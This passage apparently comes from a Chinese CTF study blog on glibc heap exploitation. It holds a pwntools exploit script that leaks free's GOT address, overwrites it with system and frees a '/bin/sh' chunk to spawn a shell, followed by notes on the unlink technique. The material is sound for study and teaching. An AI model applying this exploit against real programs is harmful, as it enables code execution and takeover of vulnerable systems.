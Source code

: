 ```py
	p.sendlineafter("Index :",str(id))
	p.sendlineafter("Content of heap : ",str(payload))
	p.recvline()

def delete(id):
	p.sendlineafter("Your choice :","4")
	p.sendlineafter("Index :",str(id))

def show(id):
	p.sendlineafter("Your choice :","3")
	p.sendlineafter("Index :",str(id))

create(0x18,"aaaa")	
create(0x10,"bbbb")
create(0x10,"cccc")
create(0x10,"/bin/sh")

edit(0,"a"*0x18 + '\x81')
sleep(0)
delete(1)
p.recvline()
payload = "a"*0x40 + '\x08'.ljust(8,'\x00') + p64(elf.got['free'])
create(0x70,payload)
show(2)

p.recvuntil("Content : ")
free_addr = u64(p.recvuntil("Done")[:-5].ljust(8,'\x00'))
print hex(free_addr)
free_sys_offset = -0x3f1a0
sys_addr = free_addr + free_sys_offset
print '\nsys_addr:   ' + hex(sys_addr)

edit(2,p64(sys_addr)) 
gdb.attach(p)
delete(3)
#gdb.attach(p)
p.interactive()

```

# Unlink

对于两个释放了的物理相邻的chunk，在内存回收进行合并时会加入新的bin，此时有可能产生攻击点

unlink的过程：
![20210309195222](https://raw.githubusercontent.com/Brubbish/pic_bed/master/blog/20210309195222.png)

```
当我们 free() 时
glibc 判断这个块是 small chunk
判断前向合并，发现前一个 chunk 处于使用状态，不需要前向合并
判断后向合并，发现后一个 chunk 处于空闲状态，需要合并
继而对 Nextchunk 采取 unlink 操作

unlink 具体执行的效果:
FD=P->fd = target addr -12
BK=P->bk = expect value
FD->bk = BK，即 *(target addr-12+12)=BK=expect value
BK->fd = FD，即 *(expect value +8) = FD = target addr-12
```
